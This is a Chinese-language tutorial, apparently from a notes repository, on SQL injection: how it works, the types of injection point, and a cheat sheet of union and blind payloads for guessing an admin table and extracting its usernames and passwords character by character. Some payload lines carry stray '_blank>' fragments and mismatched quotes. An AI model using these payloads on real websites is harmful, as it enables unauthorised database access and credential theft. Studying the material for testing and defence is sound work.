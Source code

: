 # SQL注入

## SQL注入的原理

- 黑客以自己的意愿修改一条查询语句，以此来达到获取自己想要的信息的目的，通常都是利用网站对输入过滤不严格的漏洞来实现的。

- 简单例子：

    - `$query="select * from user where qq='$qq'"`;
    - 这是我们的查询语句，$qq是我们的变量，本来这里是提交QQ号的。比如QQ=123456
    - 查询语句为： `select * from user where qq=‘123456’`

    - 假如我们查询的qq为 `12345‘ union select * from admin --+`

    - 这时语句为 `select * from user where qq=‘12345‘ union select * from admin --+’`

    - 查询结果就会连 `admin` 的账号密码也输出出来。

## SQL注入的常用指令

- 数字型注入点

    - 许多网页链接有类似的结构 http://xxx.com/users.php?id=1 基于此种形式的注入，一般被叫做数字型注入点，缘由是其注入点 id 类型为数字，在大多数的网页中，诸如 查看用户个人信息，查看文章等，大都会使用这种形式的结构传递id等信息，交给后端，查询出数据库中对应的信息，返回给前台。
    
    - 这一类的 SQL 语句原型大概为 select * from 表名 where id=1 若存在注入，我们可以构造出类似与如下的sql注入语句进行爆破：
        
        `select * from 表名 where id=1 and 1=1`

- 字符型注入点

    - 网页链接有类似的结构 http://xxx.com/users.php?name=admin 这种形式，其注入点 name 类型为字符类型，所以叫字符型注入点。
    
    - 这一类的 SQL 语句原型大概为 select * from 表名 where name='admin' 值得注意的是这里相比于数字型注入类型的sql语句原型多了引号，可以是单引号或者是双引号。若存在注入，我们可以构造出类似与如下的sql注入语句进行爆破：

        `select * from 表名 where name='admin' and 1=1 ' `
        
    - 当然，在构造时要注意处理引号。

- 搜索型注入点

    - 这是一类特殊的注入类型。这类注入主要是指在进行数据搜索时没过滤搜索参数，一般在链接地址中有 "keyword=关键字" 有的不显示在的链接地址里面，而是直接通过搜索框表单提交。此类注入点提交的 SQL 语句，其原形大致为：select * from 表名 where 字段 like '%关键字%' 若存在注入，我们可以构造出类似与如下的sql注入语句进行爆破：

        `select * from 表名 where 字段 like '%测试%' and '%1%'='%1%'`

- GET POST Cookie HTTP头部等报文注入

    - 这类注入都通过在报文中加入内容来实现注入，Burp Suite是个很好的工具。

- 联合查询注入

    - 可以使用union的情况下的注入。
 
    - 常用语句
        - 判断有无注入点 

            `; and 1=1 and 1=2`

        - 猜表一般的表的名称无非是admin adminuser user pass password 等.. 

            `and 0<>(select count(*) from *) `

            `and 0<>(select count(*) from admin)` ---判断是否存在admin这张表

        - 猜帐号数目 如果遇到0< 返回正确页面 1<返回错误页面说明帐号数目就是1个 

            `and 0<(select count(*) from admin)` 

            `and 1<(select count(*) from admin)`

        - 猜解字段名称 在len( ) 括号里面加上我们想到的字段名称. 

            `and 1=(select count(*) from admin where len(*)>0)-- `

            `and 1=(select count(*) from admin where len(用户字段名称name)>0) `

            `and 1=(select count(*) from admin where len(_blank>密码字段名称password)>0)`

        - 猜解各个字段的长度 猜解长度就是把>0变换 直到返回正确页面为止 

            `and 1=(select count(*) from admin where len(*)>0) `

            `and 1=(select count(*) from admin where len(name)>6)` 错误 

            `and 1=(select count(*) from admin where len(name)>5)` 正确 长度是6 

            `and 1=(select count(*) from admin where len(name)=6)` 正确

            `and 1=(select count(*) from admin where len(password)>11)` 正确 

            `and 1=(select count(*) from admin where len(password)>12)` 错误 长度是12 

            `and 1=(select count(*) from admin where len(password)=12)` 正确

        - 猜解字符 

            `and 1=(select count(*) from admin where left(name,1)=a)` ---猜解用户帐号的第一位 

            `and 1=(select count(*) from admin where left(name,2)=ab)`---猜解用户帐号的第二位 

            就这样一次加一个字符这样猜,猜到够你刚才猜出来的多少位了就对了,帐号就算出来了 

            `and 1=(select top 1 count(*) from Admin where Asc(mid(pass,5,1))=51)`  这个查询语句可以猜解中文的用户和_blank>密码.只要把后面的数字换成中文的ASSIC码就OK.最后把结果再转换成字符.